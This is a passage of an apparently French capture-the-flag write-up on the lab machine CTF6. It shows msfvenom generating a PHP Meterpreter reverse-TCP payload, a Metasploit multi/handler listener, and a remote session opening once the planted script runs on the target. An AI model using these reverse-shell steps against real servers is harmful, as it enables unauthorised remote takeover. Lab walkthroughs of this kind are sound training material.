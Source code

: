 Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle. Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en PHP va être créé et déposé sur le serveur. Ce bout de code va, dans un premier temps, créer une connexion sur le port 12345 entre le serveur CTF6 (192.168.56.101) et notre propre machine (192.168.56.102), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=12345 -o shell.php
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 12345.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.102
LHOST => 192.168.56.102
msf exploit(multi/handler) > set LPORT 12345
LPORT => 12345

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.56.102:12345
```

Le simple fait de consulter la news sur le site Web amorce la connexion.

```console
msf exploit(multi/handler) > [*] Sending stage (37775 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:12345 -> 192.168.56.101:50145) at 2018-01-01 01:01:01 +0200

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  1         meterpreter php/linux  apache (48) @ localhost.localdomain  192.168.56.102:12345 -> 192.168.56.101:50145 (192.168.56.101)
```
